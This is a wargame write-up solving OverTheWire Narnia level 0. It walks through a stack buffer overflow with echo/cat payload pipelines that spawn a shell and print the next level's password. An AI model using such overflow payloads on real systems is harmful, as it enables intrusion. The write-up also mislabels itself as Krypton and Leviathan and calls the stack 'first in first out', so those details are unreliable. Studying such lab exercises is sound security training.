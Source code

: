 # Krypton 1


## Overview

-----------------
On the OverTheWire/Leviathan website, we are told how connecting to the bandit server as a specific user works.

Each user corresponds to a different level:
- Narnia0 -> Level 0
- Narnia1 -> Level 1
- ...
- Narnia33 -> Level 33

Each level is hiding a flag, which is used as the password for the following level. Meaning, one must solve `Level n` to play `Level n+1`.

We always start out connecting to the `narnia.labs.overthewire.org` server on `port 2226` for each level.
Again, the users on the server specifies the level. Each starting point is the same:

``` text
➜  ~  ssh narnia0@narnia.labs.overthewire.org -p 2226
                                                _       
                         _ __   __ _ _ __ _ __ (_) __ _ 
                        | '_ \ / _` | '__| '_ \| |/ _` |
                        | | | | (_| | |  | | | | | (_| |
                        |_| |_|\__,_|_|  |_| |_|_|\__,_|
                                                        

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

narnia0@narnia.labs.overthewire.org's password: 
```

The password will always be the flag of the previous level. With the exception of Level 0, where the password is `narnia0`.


## Connecting

--------------

We can establish a connection with the server via ssh, and using the password `narnia0`:

``` text
➜  ~  ssh narnia0@narnia.labs.overthewire.org -p 2226
                                                _       
                         _ __   __ _ _ __ _ __ (_) __ _ 
                        | '_ \ / _` | '__| '_ \| |/ _` |
                        | | | | (_| | |  | | | | | (_| |
                        |_| |_|\__,_|_|  |_| |_|_|\__,_|
                                                        

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

narnia0@narnia.labs.overthewire.org's password: narnia0

      ,----..            ,----,          .---.
     /   /   \         ,/   .`|         /. ./|
    /   .     :      ,`   .'  :     .--'.  ' ;
   .   /   ;.  \   ;    ;     /    /__./ \ : |
  .   ;   /  ` ; .'___,/    ,' .--'.  '   \' .
  ;   |  ; \ ; | |    :     | /___/ \ |    ' '
  |   :  | ; | ' ;    |.';  ; ;   \  \;      :
  .   |  ' ' ' : `----'  |  |  \   ;  `      |
  '   ;  \; /  |     '   :  ;   .   \    .\  ;
   \   \  ',  /      |   |  '    \   \   ' \ |
    ;   :    /       '   :  |     :   '  |--"
     \   \ .'        ;   |.'       \   \ ;
  www. `---` ver     '---' he       '---" ire.org


Welcome to OverTheWire!

<snip>

  Enjoy your stay!

narnia0@gibson:~$ 
```

## Looking Around

--------------
We first start by looking around the home directory, as we have no idea what is going on. We will use the command `ls`,
which allows us to `list` the content of the current directory (or specified directory).


``` text
narnia0@gibson:~$
narnia0@gibson:~$ cd /narnia
narnia0@gibson:/narnia$ ls
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c
narnia0@gibson:/narnia$ cat narnia0.c
<snip>
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

Alright. We are dealing with a buffer overflow attack here. 

We are loading up the Stack as a "first in first out" type loading. Meaning:


| Stack                |
|----------------------|
|  char buf[20];       |
| long val=0x41414141; |

This means, if we go past the 19 character (as C has a `\x00` to signal end of array) we are overwriting the value of
the `long val=0x41414141;`.

``` text
narnia0@gibson:/narnia$ echo -en "aaaaaaaaaaaaaaaaaaaa" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaa
val: 0x41414100
WAY OFF!!!!
```
Notice how the value of `val` has changed, as we have pushed `20 a's` into the stack, causing the buffer to overflow. 

We can now add hex to the `"aaaa..."` string to push those into the value of `val`. 

#### Note

The first thing to clarify is that endianness is a hardware attribute, not a software/OS attribute, 
so WinXP and Linux are not big-endian or little endian, but rather the hardware on which they run is 
either big-endian or little endian.

-----------------------------

Therefore, we must test whether the hardware is using little endian or big endian for their hex notation. 

Let's check by just writing `\xde\xad\xbe\xef` at the end of the `aaaa...`:

``` text
narnia0@gibson:/narnia$ echo -en "aaaaaaaaaaaaaaaaaaaa\xde\xad\xbe\xef" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaޭ??
val: 0xefbeadde
WAY OFF!!!!
```

As we can see, the `\xde\xad\xbe\xef` was mirrored, therefore, to mirror it back, we can just use the `val: 0xefbeadde`
line of the previous output and just add the `\x` to the chars.

``` text
narnia0@gibson:/narnia$ echo -en "aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ?
val: 0xdeadbeef
```

Boom We got the correct value, but nothing happened. This is because when we pipe an input into the program, the program
reads from the `stdin`, but doesn't attach a terminal in the process. (Which makes sense because we are running the program "isolated"
and just giving it the `stdout` from the `echo` command as the `stdin`.) Therefore, the `system("/bin/sh")` line gets called,
but because there is no terminal attached to the process, `system("/bin/sh")` doesn't do anything.

> When we pipe input into a program, the program does read from `stdin`, but it's a **non-interactive** `stdin`.

Well this is a bummer. How do we fight this? 

We can try to use `cat`, as `cat` by itself simply echoes whatever is passed to it. Example:

``` text
narnia0@gibson:/narnia$ cat
hello
hello
narnia
narnia
exit()
exit()
exit
exit
^C
narnia0@gibson:/narnia$ 
```

This means, we can create an artificial *terminal* by passing `cat` as a new command. [Magic Cat](../extras/magic_cat.md)

``` text
narnia0@gibson:/narnia$ ( echo -en "aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde"; cat ) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ?
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
eaa6AjYMBB
exit
^C  
narnia0@gibson:/narnia$ 
```

BOOM we got a shell AND the flag.

